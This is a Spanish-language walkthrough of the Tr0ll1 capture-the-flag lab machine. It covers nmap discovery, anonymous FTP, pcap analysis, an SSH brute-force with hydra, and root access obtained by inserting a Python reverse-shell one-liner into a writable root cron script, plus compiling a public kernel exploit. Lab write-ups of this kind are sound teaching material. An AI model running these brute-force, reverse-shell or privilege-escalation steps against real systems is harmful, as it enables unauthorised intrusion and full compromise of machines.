



Resolucion de TROLL1
TROLL1
sudo nmap -sn -n 192.168.20.0/24
Descubrimos los HOST activos
En este caso sabemos que la maquina es la 192.168.20.128 por lo que escaneamos los puertos activos de forma segura para no ser detectados
.
sudo nmap -sS -n -ff --top-ports 5 192.168.20.128
De nuevo aquí sabemos que esta máquina unicamente tiene los puertos 21,22 y 80 activos
.Ahora vamos a ver que servicios y que versión corren esos puertos:
sudo nmap -sV -n -p21,22,80 192.168.20.128

Como vemos que en este caso el puerto 80 está activo significa que está corriendo alguna aplicacion web así que vamos al navegador a verificar
.En esta aplicación habrá archivos y contenido dentro de la aplicación web utilizando DIRBUSTER etc
.Sabiendo que servicios corren podemos buscar vulnerabilidades publicas y si tienen PoC
.Observamos que tiene un servicio FTP activo en el puerto 21 y que este servicio por defecto implementa un acceso anonimo, por lo que podremos probar.
ftp 192.168.20.128

Como vemos esta máquina tiene un login anónimo en FTP
.Listamos archivos y vemos un “lol.pcap” así que lo traemos a la maquina principal:
get lol.pcap
exit
Abrimos el archivo con WIRESHARK
wireshark lol.pcap

Y vemos registros de inicio de sesion mediante FTP
En este tipo de conexiones es interesante ver que archivos y que transferencias se han realizado

En este caso en un FTP-DATA encontramos algo más de información
.Como vemos es alguna guía para este “juego” indicando que casi pero no.
Así
que podríamos intentar buscar algo sobre esta información en la aplicación web
.En el navegador vamos a buscar el directorio
http://192.168.20.128/sup3rs3cr3tdirlol/
Encontramos un archivo y lo descargamos
.Si lo abrimos vemos que es un binario en que solo distinguimos algunas cadenas de texto
.
Como vemos hay algún tipo de pista
.A lo mejor se está refiriendo a la aplicación web
http://192.168.20.128/0x0856BF/Vemos dos carpetas en las que hay dos archivos uno con una contraseña y otro con lo que parece una lista de Usuarios
:maleus
ps-aux
felux
Eagle11
genphlux < -- Definitely not this one
usmc8892
blawrg
wytshadow
vis1t0r
overflow
Good_job_:)
Ahora bien, si recordamos esta maquina tiene varios servicios, FTP, HTTP y SSH, quizá esto indique algún usuario valido para poder acceder por SSH
.Para ello si tenemos el usuario concreto y su contraseña pues lo hacemos manualmente si no podemos usar algunas herramientas automáticas
.Una de las más famosas es HYDRA
:Descargamos los archivos de texto de la maquina a la nuestra con
:
curl http://192.168.20.128/0x0856BF/good_luck/which_one_lol.txt > users.txt
curl http://192.168.20.128/0x0856BF/this_folder_contains_the_password/Pass.txt > pass.txt
Modificamos el documento para eliminar esa cadena de texto innecesaria y vamos con hydra
:
hydra -L users.txt -p "Good_job_:)" 192.168.20.128 ssh
Pero parece que no es correcto ya que hydra nos devuelve que no ha encontrado coincidencias
.Teniendo un poco en cuenta que es un juego y que la carpeta donde copiamos la posible contraseña se llama “this_folder_contains_the_password”, pensando un poco y siendo creativos podemos pensar que es “Pass.txt” así que vamos a probar
:
hydra -L users.txt -p "Pass.txt" 192.168.20.128 ssh

Como vemos en este caso ha conseguido acceso mediante una coincidencia
.A todo esto hay que tener en cuenta que todo esto será monitoreado por prácticamente cualquier IDS como SNORT si se realiza así sin más o sin protección por lo que es algo a tener en cuenta ya que hydra basicamente hace un ataque de fuerza bruta
.En este punto podemos tomar tres caminos:
- →
→ Descubrir que proceso nos termina la sesión por timeout
- →
→ Descubrir ficheros a los que tengamos acceso desde la maquina
- →
→ Buscar vulnerabilidades para la versión del sistema operativo que esté ejecutando la máquina
Vamos a ver si podemos eliminar o configurar el proceso que nos termina la sesión
:
cd /var/log
Listamos y vemos un archivo cronlog que si analizamos está ejecutando un archivo llamado cleaner.py

Buscamos donde se encuentra ese archivo y vemos su contenido

Es un script en python que de forma recursiva elimina a todo el contenido de la carpeta tmp pero si vemos quien ejecuta este archivo es el usuario root y tiene un problema de seguridad y es que el archivo se puede modificar por cualquier usuario
.Buscamos un script de python para activar un reverse shell desde el archivo
:https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.20.129",4242));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")
Con un nano vamos a modificar el script de python añadiendo esa linea de ejecución y vamos escuchar por el puerto con netcat:
nano /lib/log/cleaner.py
netcat -lvp 4242
Y cuando el archivo se ejecute veremos como obtenemos una reverse shell de la maquina con privilegios root

De nuevo esto es una maquina preparada por lo que en el mundo real no se encuentran esos script en diseñados para poder explotarlos
.Pero si que en un caso real podemos hacer un análisis sobre vulnerabilidades que tenga algún servicio desactualizado que proporcione una brecha de seguridad que podamos explotar
Por ejemplo hay un exploit del kernel de linux en su versión 3.13.0 en las versiones de Ubuntu 12.04/14.04/14.10/15.04
https://www.exploit-db.com/exploits/37292
Para probarlo podemos copiar el exploit e ir a una dirección donde el usuario de ssh pueda escribir como es TMP
:
pico exploit.c
Pegamos el exploit
gcc exploit.c -o hacked
./hacked
Y como vemos tenemos escalado de privilegios